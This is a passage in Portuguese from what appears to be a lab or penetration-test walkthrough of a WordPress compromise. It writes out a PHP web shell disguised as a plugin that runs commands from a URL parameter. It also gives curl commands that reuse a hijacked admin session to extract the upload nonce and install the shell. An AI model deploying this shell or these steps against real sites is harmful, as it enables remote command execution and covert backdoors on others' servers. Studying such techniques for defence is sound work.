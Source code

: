 Para o upload, este arquivo foi colocado em um diretório e compactado no formato `.zip` esperado pelo WordPress.

```bash
mkdir caniveteplugin
echo '<?php /* Plugin Name: Canivete Suico */ if(isset($_GET["cmd"])) { if(function_exists("system")) { system($_GET["cmd"]); } elseif(function_exists("passthru")) { passthru($_GET["cmd"]); } elseif(function_exists("exec")) { exec($_GET["cmd"], $output); print_r($output); } elseif(function_exists("shell_exec")) { echo shell_exec($_GET["cmd"]); } else { echo "Nenhuma funcao de comando disponivel."; } } ?>' > caniveteplugin/canivete.php
zip -r caniveteplugin.zip caniveteplugin/
```

### 3.2 - A Caça ao Nonce

Requisições que alteram o estado do WordPress, como a instalação de um plugin, são protegidas por um token de uso único chamado "nonce" (`_wpnonce`). Sem um nonce válido, o servidor rejeita o comando. O nosso próximo passo, portanto, era caçar esse token.

O processo para obter o nonce via linha de comando é o seguinte:

**1. Navegar Autenticado até a Página de Upload:**
Primeiro, usamos o `curl` e o nosso `cookies.txt` para "visitar" a página de upload de plugins e salvar o HTML dela em um arquivo. A página não é uma "pasta", mas sim uma URL que só pode ser acessada por um administrador logado.

```bash
curl -b cookies.txt "http://172.20.7.90/wp-admin/plugin-install.php?tab=upload" > upload_page.html
```
- `-b cookies.txt`: "Navega" usando nossa sessão de admin.
- `> upload_page.html`: Salva todo o código-fonte da página em um arquivo local.

**2. Extrair o Nonce do HTML:** Com a página salva, usamos o `grep` para vasculhar o arquivo `upload_page.html` e encontrar a linha que contém o `_wpnonce`.

```bash
grep '_wpnonce' upload_page.html
```
Este comando irá cuspir a linha de código que contém o nonce. O valor que precisamos estará dentro do atributo `value` de um campo de formulário escondido (`<input type="hidden" ...>`).

Com o nonce finalmente em mãos, é possível seguir para a etapa final do upload.

### 3.3 - Upload do Plugin

Armado com o cookie de sessão e o nonce recém-extraído, o comando final de upload pôde ser montado e executado:
```bash
curl -v -b cookies.txt -F "_wpnonce=44fc9fb434" -F "pluginzip=@caniveteplugin.zip" -F "install-plugin-submit=Install Now" "http://172.20.7.90/wp-admin/update.php?action=upload-plugin"
```

A resposta do servidor foi a recompensa por toda a investigação: a confirmação de que o acesso era legítimo. O ==nonce== era válido e o plugin foi instalado com sucesso.
